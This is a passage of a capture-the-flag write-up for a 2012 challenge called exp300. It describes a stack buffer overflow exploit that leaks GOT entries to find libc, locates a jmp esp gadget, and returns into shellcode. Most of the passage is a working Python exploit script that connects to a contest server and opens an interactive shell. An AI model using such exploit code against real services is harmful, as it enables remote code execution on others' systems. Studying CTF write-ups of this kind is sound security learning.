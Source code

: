         f.write(payload)                                                           
        x = f.read(116)                                                            
        f.flush()                                                                  
                                                                                   
        buf = f.read(0x800)                                                        
        f.close()                                                                                                                   
                                                                                   
        return buf 
</pre>

Our general strategy at this point will be: read the GOT entries to find a libc address, then search in libc for a <tt>jmp esp</tt> gadget, then use that to return to our shellcode (<tt>jmp esp</tt> works since we know that NX is disabled). Here is the solution:

<pre>#!/usr/bin/python                                                               
import struct                                                                   
import socket                                                                   
import telnetlib                                                                
import sys                                                                      
import string

def find_jmp_esp():                                                                                                                                                                                     
        gots = read_mem(0x804B000)  # The offset of the got entries.                                             
                                                                                
        setsockopt = struct.unpack('I', gots[:4])[0]                            
        libc_guess = setsockopt - 0xEC6D0  # Where setsockopt is located on my ubuntu machine.                                   
                                                                                
        buf_base = libc_guess - (libc_guess % 0x1000)                                                   
                                                                                
        buf = read_mem(buf_base)                                                           
        while buf:                                                                                                               
                jmp_esp = buf.find("\xff\xe4")  # jmp esp                                  
                if jmp_esp != -1:                                               
                        return buf_base + jmp_esp                               
                else:                                                           
                        buf_base += len(buf)                                    
                        buf = read_mem(buf_base)                                
                                                                                
        return 0                                                                

def solve(jmp_esp):                                                             
        payload = (                                                             
                "A"*326 +                                                       
                struct.pack('I', jmp_esp)+                                      
                shellcode                                                       
        )                                                                       
                                                                                
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)                   
        s.connect(('128.238.66.218', 4842))                                     
        # s.connect(('127.0.0.1', 4842))                                        
        f = s.makefile('rw', bufsize=0)                                         
                                                                                
        f.write(payload)                                                        
                                                                                
        t = telnetlib.Telnet()                                                  
        t.sock = s                                                              
        t.interact()  
                                                                                

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/exp300.tar.gz
 [2]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-2.10.27-PM.png
 [3]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-2.32.23-PM.png
